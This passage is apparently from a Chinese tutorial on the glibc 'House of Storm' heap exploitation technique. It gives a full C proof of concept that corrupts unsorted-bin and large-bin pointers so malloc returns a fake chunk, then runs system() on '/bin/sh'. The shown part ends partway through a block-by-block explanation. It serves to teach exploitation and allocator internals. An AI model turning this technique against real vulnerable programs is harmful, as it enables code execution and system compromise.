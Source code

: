 这里先直接给出完整利用的代码 后续再拆开进行分块分析

```
// gcc -ggdb -fpie -pie -o house_of_storm house_of_storm.c
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
struct {
    char chunk_head[0x10];
    char content[0x10];
}fake;

int main(void)
{
    unsigned long *large_bin,*unsorted_bin;
    unsigned long *fake_chunk;
    char *ptr;

    unsorted_bin=malloc(0x418);
    malloc(0X18);
    large_bin=malloc(0x408);
    malloc(0x18);

    free(large_bin);
    free(unsorted_bin);
    unsorted_bin=malloc(0x418);
    free(unsorted_bin);

    fake_chunk=((unsigned long)fake.content)-0x10;
    unsorted_bin[0]=0;
    unsorted_bin[1]=(unsigned long)fake_chunk;

    large_bin[0]=0;
    large_bin[1]=(unsigned long)fake_chunk+8;
    large_bin[2]=0;
    large_bin[3]=(unsigned long)fake_chunk-0x18-5;

    ptr=malloc(0x48);
    strncpy(ptr, "/bin/sh", 0x48 - 1);
    system(fake.content);
}
```

```
struct {
    char chunk_head[0x10];
    char content[0x10];
}fake;
```

这里我为了方便，就直接使用结构体来设置一个随机地址。当然，使用栈上的空间也是可行的。

```
unsigned long *large_bin,*unsorted_bin;
    unsigned long *fake_chunk;
    char *ptr;

    unsorted_bin=malloc(0x418);
    malloc(0X18);
    large_bin=malloc(0x408);
    malloc(0x18);

    free(large_bin);
    free(unsorted_bin);
    unsorted_bin=malloc(0x418);
    free(unsorted_bin);
```